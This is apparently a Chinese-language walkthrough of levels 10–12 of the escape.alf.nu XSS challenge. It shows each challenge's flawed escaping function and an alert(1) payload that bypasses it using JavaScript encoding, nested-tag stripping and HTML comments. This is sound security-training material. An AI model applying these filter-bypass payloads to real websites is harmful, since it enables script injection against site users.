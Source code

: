 *<a href="http://escape.alf.nu/10/">第10题</a>*

```
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```
可以看到对很多XSS常用符号做了过滤，但是没有过滤反斜线。但是由于是先写入script再解析，所以可以使用JS支持的编码方式绕过。
```
\74svg/onload=alert(1)\76
```

*<a herf="http://escape.alf.nu/11">第11题</a>*

```
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```
这里JSON化了字符串之外还过滤的'</script>'，只不过不是替换为别的字符串而是简单的替换为空，所以利用类似```</</scriptscript>```的方式就可以绕过。
```
</</scriptscript><script>alert(1)//
```

*<a href="http://escape.alf.nu/12">第12题</a>*

```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
这题跟前面的一题类似，只不过多了对'/'的过滤，所以不能使用'//'注释符。但是javascript支持html的注释符```<!--```,因此可以绕过过滤。
```
'#';alert(1)<!--
```
